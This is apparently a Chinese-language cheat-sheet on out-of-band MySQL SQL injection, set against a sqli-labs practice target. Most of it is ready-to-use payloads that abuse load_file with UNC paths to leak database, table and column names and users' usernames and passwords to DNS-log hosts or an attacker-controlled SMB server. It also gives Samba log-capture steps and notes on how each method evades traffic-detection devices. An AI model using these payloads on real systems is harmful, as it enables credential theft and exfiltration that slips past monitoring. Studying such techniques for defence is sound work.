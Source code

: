 | 方式                                  | 简介                    |
| :------------------------------------ | ----------------------- |
| secure_file_priv                      | 拥有读写权限            |
| secure_file_priv=""                   | 可以读取任何目录        |
| secure_file_priv='/var/www/html'      | 可以读取指定文件        |
| secure_file_priv=null                 | 不能加载文件            |
| show global variables like "%secure%" | 查看mysql是否有写的权限 |

```cmd
//数据外带条件
1.Windows操作系统
2.secure_file_priv 不为空

//DNS数据外带
id=1'and load_file(concat('\\\\',(select database()),'.34ab77c4.log.dnslog.store.\\abc')) --+

# 获取表名
http://192.168.2.9/master/Less-1/?id=1' and load_file(concat('////',(select group_concat(table_name separator '_')
from information_schema.tables where table_schema=database()),'.f1ylqx.dnslog.cn//abc')) --+

# 获取字段名
http://192.168.2.9/master/Less-1/?id=1' and load_file(concat("//",(select group_concat(column_name separator "_") from information_schema.columns where table_schema=database() and table_name="users"),".f1ylqx.dnslog.cn/abc")) --+

# 获取数据
http://192.168.2.9/master/Less-1/?id=1' AND load_file(CONCAT('////',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45)FROM users),'.trkww0.dnslog.cn/abc')) --+
```

```cmd
//SMB数据外带
命令:yum install samba -y
修改配置文件:vim /etc/samba/smb.conf
默认samba日志路径:/var/log/samba/log.smbd


//利用实时查看日志并匹配结果
tail -f /var/samba/log.smbd | grep "failed to find service"

//smb数据外带实验
id=1'and load_file(concat('\\\\192.168.1.1\\',(select user()),'t'))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(schema_name from information_schema.schemata),'t')))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(username,':',password) from security.users),'t'))%23


//DNS数据外带和SMB数据外带优缺点
优点:
- dns数据外带,在极限条件下(内网机器不出网,支持dns出网),规避流量检测设备,可以用dnslog外带数据
- smb外带数据,在默认支持tcp|udp出网方式,可用无长度限制和符号限制,规避流量检测设备

缺点:
- dns外带数据:在符号长度有限制,61长度限制,*@#$%不支持敏感符号,需要转码数据外带
- smb数据外带,默认要允许tcp出网
```
